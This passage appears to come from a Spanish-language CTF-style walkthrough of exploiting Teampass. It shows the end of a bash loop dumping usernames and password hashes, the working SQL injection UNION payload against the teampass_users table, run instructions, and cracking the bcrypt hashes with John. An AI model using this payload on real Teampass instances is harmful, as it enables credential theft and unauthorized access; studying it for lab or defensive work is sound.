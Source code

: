 ```bash 
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```


como tal la SQLI que emplea es la siguiente 

```sql
"none' UNION SELECT id, '$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq', (url), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
```

la cual nos muestra la credenciales de los usuario que estén registrados en Teampass



Probemos si funciona , para ello debes de dar los permisos de ejecución y pasarle la Url de donde este el Teampass

recuerda instalar jq para que funcione 

```bash
apt install jq
```

![paste](./images/6.jpeg)

Y cuando lo ejecutemos el script, este nos reporta que tiene 2 usuarios validos dentro de Teampass

![paste](./images/7.jpeg)

El tipo de encripta miento es Bycript por ende podemos usar ya sea john para romper las contraseñas 

De las dos contraseñas la unca que john pudo descifrar es la de bob 

![paste](./images/8.jpeg)
